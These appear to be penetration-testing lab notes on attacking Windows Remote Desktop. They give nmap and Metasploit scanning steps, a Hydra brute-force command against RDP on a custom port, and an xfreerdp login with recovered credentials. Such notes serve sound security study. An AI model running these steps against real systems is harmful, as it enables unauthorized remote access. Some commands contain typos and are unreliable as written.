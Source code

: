#### Exploiting RDP
- The Remote Desktop Protocol is a proprietary GUI  remote access protocol developed by Microsoft and is used to remotely connect and interact with windows system.
- RDP uses TCP PORT 3389 by default,and can also be configured to run on any other TCP port.
- RDP authentication requires a legitimate user account on the target system as well as the user's password in clear-text.
- we can perform an RDP brute-force attack to identify legitimate user credentials that we can use to gain remote access to the target system.

#### Exploit
- nmap -sV 10.10.10.12[ confirmation for rdp,rdp can run any port]
- service postgresql start
- msfconsole
- search rdp_scanner
- use auxiliary/scanner/rdp/rdp_scanner
- set all requires options [ can can confirm setting different different port to which one is actual port for rdp if it is not default]
- run 
- this will confirm which rdp port and versions
##### Hydra
- hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.2.24.86 -s 3333 [brute force for user name and password,we need to set -s options for setting port as it is not using default port]
- from this we get password and user
##### xfreerdp 
- xfreedrp /u:adminitrator /p:qwertyuiop /v:10.10.10.12:3333 [here u:username p:password]
- this will give us a GUI to control victim pc remotely.
#### Note 
- others rdp clients are remmina,rdesktop,krdc etc.
